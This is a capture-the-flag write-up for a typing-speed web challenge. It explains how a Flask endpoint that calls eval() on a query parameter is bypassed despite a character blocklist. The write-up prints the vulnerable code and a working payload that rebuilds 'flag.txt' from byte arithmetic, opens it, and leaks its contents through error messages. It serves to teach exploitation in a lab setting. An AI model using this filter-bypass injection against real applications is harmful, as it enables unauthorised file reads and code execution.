








# wpm_game
> Let's test out your words per minute! The website is under development though, might not be fully secure.... Flag is in flag.txt.

## Background
Upon opening the challenge, I was met with a typing speed game. By typing in a given sentence, It calculates your WPM and returns
it to you.
<body align="left">
  
</body>
<body align="left">
  
</body>

Taking a look at the code, It seems that the flag is not referenced at all in the code, only as a separate file. It seemed like I had to find some sort of LFI to obtain it.

The app is only fifty lines long. It first defines a few possible sentences for the user to type in.
```
SENTENCES = [
    "The quick brown fox jumps over the lazy dog while the cat watches from the fence.",
    "Typing fast is a skill that improves with practice and a little bit of patience.",
    "A journey of a thousand miles begins with a single step taken with confidence.",
    "Good code is its own best documentation as it explains itself to the reader.",
    "The sun set behind the mountains and painted the sky in shades of orange and pink.",
    "Simplicity is the ultimate sophistication when it comes to design and engineering.",
    "She sells seashells by the seashore and the shells she sells are surely seashells.",
    "Every great developer you know got there by solving problems they were unqualified to solve.",
]
```

It then creates a simple function to separate server responses for differing WPM rates.

```
def rate(wpm) -> float:
    if wpm < 50:
        return "slow"
    if wpm < 100:
        return "progressing"
    if wpm < 200:
        return "good"
    if wpm < 350:
        return "goated"
    if wpm > 900:
    	return "even robots can't do that"
```

```
def check(string):
    # Oops chat I might have accidently made it unsolvable. Only one way to find out? Let's see if you are 1337 enough
    string = string.lower()
    disallowed = [".","_","import", "=", ",", "'", '"', "attr", "global", "local", ";", ":", "^", "/", ">", "<", "{", "}", "m", "a", "not", "and", "or", "eval", "exec", "for", "in", "chr", "ord", "hex", "int", "repr", "str", "dir", "set", "len", "SENTENCES", "random", "request", "app", "flask"]
    c = any([x in string for x in disallowed]) 
    non_ascii = any([ord(x) < 32 for x in string]) or any([ord(x) > 126 for x in string])
    return c or non_ascii or len(set(string)) > 18
```
An interesting check() function is defined.
It first sorts out common python exploit strings, along with characters such as "m" and "a".
It then checks to ensure that all the values in string are valid ascii characters.
Then it creates a set of the string, ensuring that the inputted string doesnt exceed more than 18 unique characters.

```
@app.route("/")
def index():
    return render_template("index.html", sentence=random.choice(SENTENCES))

@app.route("/rate")
def rate_wpm():
    try:
        wpm = request.args.get("wpm", "")
    except ValueError:
        return jsonify(error="invalid wpm"), 400
    if check(wpm):
        return "Invalid WPM!"
    return jsonify(verdict=rate(eval(wpm.lower())), wpm=float(wpm))
```

Lastly, it defines the app routes.
/rate should be the most interesting endpoint.
It accepts a wpm from the url query parameters, then It uses the check() function and then calls eval()
on the inputted wpm. That value is then passed into the rate() function.

### Building the exploit
First, I tested the /rate endpoint by inputting a few mundane characters that bypassed the check() function.
<body align="left">
  
</body>
The error is directly returned to the user! Not only that, but a secret was returned.
After a sidequest, I eventually decided that the secret was not part of the solution to the challenge
even though it looks super tempting. I couldn't get the exploit to work and I believed that it wasn't possible.
(https://hacktricks.wiki/en/network-services-pentesting/pentesting-web/werkzeug.html)

Next was to take a closer look at the check() function to see what it actually blocks.

Taking a look at the filter, it seems pretty strict on what I could and couldn't do. To rule out what it blocked
and what it didn't, i pulled up the list of python builtins. (https://docs.python.org/3/library/functions.html)
<body align="left">
  
</body>
The remaining builtins that are still usable are:
bool()
bytes()
dict()
filter()
help()
id()
iter()
list()
next()
object()
oct()
open()
pow()
property()
reversed()
round()
slice()
super()
tuple()
type()
zip()

At this point, I believed that the intended solution has to be related to using open() as the source of the LFI, 
but how can I enter flag.txt by bypassing the filter?
Looking through the list of available builtins, bytes() seems like the most promising one. 

```
bytes = "a.txt".encode()
print(next(open(bytes)))

#https://www.geeksforgeeks.org/python/python-program-to-convert-a-byte-string-to-a-list-of-integers/
print(list(bytes))

# Output:
# test12345 <- the contents of a.txt
# [97, 46, 116, 120, 116] <- the bytes array of "a.txt">
```

open() can accept a list of bytes, and I can easily convert strings to bytes in python!
So i used:
```
filename = "flag.txt"

filenameBytes = list(filename.encode())
print(filenameBytes)
# Output: 
# [102, 108, 97, 103, 46, 116, 120, 116]
```
To convert flag.txt into bytes.

I then attempted to rebuild flag.txt via bytes and slowly build back the original string of "flag.txt"
Also, as a side note, bytes need to be defined as a list to output an ascii value. (https://stackoverflow.com/questions/54030276/why-python-iterates-bytes-as-integers)

<body align="left">
  
</body>

I was getting an error of an invalid WPM. After writing debug statements in the check(), I found that this was because 
there were too many unique characters in my payload.

Since check() only cares about the number of unique characters and not how long the input is, to scrounge up as little unique
characters as possible, I expanded these integers into 100s, 10s, and 1s. So that 102 would become 100+1+1 and 97 would become 100-1-1-1.
This resulted in:
```
open(bytes([100+1+1])+bytes([100+1+1+1+1+1+1+1+1])+bytes([100-1-1-1])+bytes([100+1+1+1])+bytes([10+10+10+10+1+1+1+1+1+1])+bytes([100+10+1+1+1+1+1+1])+bytes([100+10+10])+bytes([100+10+1+1+1+1+1+1]))
```

Submitting this resulted in another error.
<body align="left">
  
</body>
The error:
```
TypeError: &#39;&lt;&#39; not supported between instances of &#39;_io.TextIOWrapper&#39; and &#39;int&#39;
```
occurs when the rate() function attempts to use the < operation on an IOWrapper

After adding next() to read the file as a string
```
next(open(bytes([100+1+1])+bytes([100+1+1+1+1+1+1+1+1])+bytes([100-1-1-1])+bytes([100+1+1+1])+bytes([10+10+10+10+1+1+1+1+1+1])+bytes([100+10+1+1+1+1+1+1])+bytes([100+10+10])+bytes([100+10+1+1+1+1+1+1])))
```
<body align="left">
  
</body>

Directly editing my copy of the challenge, I printed out the contents before the rate() function is called.
```
    print(eval(wpm.lower()))
    return jsonify(verdict=rate(eval(wpm.lower())), wpm=float(wpm))

    #output:
    # scriptCTF{fake_flag_for_testing}
    # Traceback (most recent call last):
    # ...
    # TypeError: '<' not supported between instances of 'str' and 'int'
```
The flag is already being printed! But how can I exfiltrate it?
Well given that the error messages are directly given to me, I can directly attempt to open the string using
another open() method. This will directly give me an error that says "File not found ... {flag}".

<body align="left">
  
</body>